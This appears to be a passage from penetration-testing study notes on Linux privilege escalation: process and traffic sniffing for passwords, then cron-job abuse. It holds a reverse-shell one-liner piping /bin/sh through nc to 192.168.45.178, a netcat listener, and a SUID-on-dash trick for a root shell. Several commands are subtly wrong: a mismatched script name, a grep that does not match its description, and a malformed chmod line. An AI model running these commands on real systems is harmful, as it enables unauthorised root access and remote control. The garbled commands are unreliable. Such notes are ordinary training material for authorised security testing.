 ```bash
strings elfBinary
```

### Inspecting Service Footprints

System daemons are Linux services that are spawned at boot time to perform specific operations without any need for user interaction. Linux servers are often configured to host numerous daemons, like SSH, web servers, and databases, to mention a few.

We can enumerate all the running processes with the ps command and since it only takes a single snapshot of the active processes, we can refresh it using the watch command. In the following example, we will run the ps command every second via the watch utility and grep the results on any occurrence of the word "pass".

```bash
watch -n 1 "ps auxww | grep root --color=auto"
```

Another more holistic angle we should take into consideration when enumerating for privilege escalation is to verify whether we have rights to capture network traffic.

***tcpdump*** is the de facto command line standard for packet capture, and it requires administrative access since it operates on raw sockets. However, it's not uncommon to find IT personnel accounts have been given exclusive access to this tool for troubleshooting purposes.

```bash
sudo tcpdump -i lo -A | grep "pass"
```

### Abusing Cron Jobs

In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access, but also runs at an elevated privilege level. On a Linux system, the cron time-based job scheduler is a prime target, since system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

One way to abuse a cronjob is to insert a reverse one-liner:

```bash
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.178 1234 >/tmp/f" >> user_eaiuebackups.sh
```

```bash
nc -lvnp 1234
```

Another way is to set a SUID for dash:

```bash
echo >> user_backups.sh
echo >> "chmod s+u /bin/dash"
..
/bin/dash -p
```

### Abusing Password Authentication
